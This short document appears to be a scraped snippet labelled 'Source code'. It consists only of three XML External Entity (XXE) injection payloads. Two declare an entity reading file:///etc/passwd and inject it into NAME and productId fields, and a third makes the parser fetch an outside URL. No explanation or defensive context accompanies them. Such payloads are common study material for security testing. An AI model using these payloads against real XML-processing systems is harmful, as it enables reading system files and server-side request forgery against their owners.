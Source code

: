 

<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>



<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>


<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://en.wikipedia.org/"> ]>